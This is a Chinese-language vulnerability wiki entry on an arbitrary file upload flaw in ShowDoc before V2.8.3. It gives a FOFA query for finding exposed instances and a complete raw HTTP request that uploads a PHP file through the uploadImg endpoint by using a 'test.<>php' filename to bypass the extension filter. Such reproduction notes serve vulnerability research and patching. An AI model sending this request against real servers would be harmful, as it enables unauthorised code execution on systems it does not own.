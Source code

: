 # ShowDoc PageController.class.php任意文件上传漏洞

## 漏洞描述

ShowDoc 存在任意文件上传漏洞，攻击者通过构造特殊的数据包可以上传恶意文件控制服务器

## 漏洞影响

  <a-checkbox checked>ShowDoc < V2.8.3</a-checkbox></br>

## FOFA

  <a-checkbox checked>app="ShowDoc"</a-checkbox></br>

## 漏洞复现

网站首页如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153125074.png)



构造如下数据包上传php文件

```plain
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Content-Length: 239
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Accept-Encoding: gzip

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php phpinfo();?>
----------------------------921378126371623762173617--
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153125267.png)



访问回显的路径

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153125177.png)



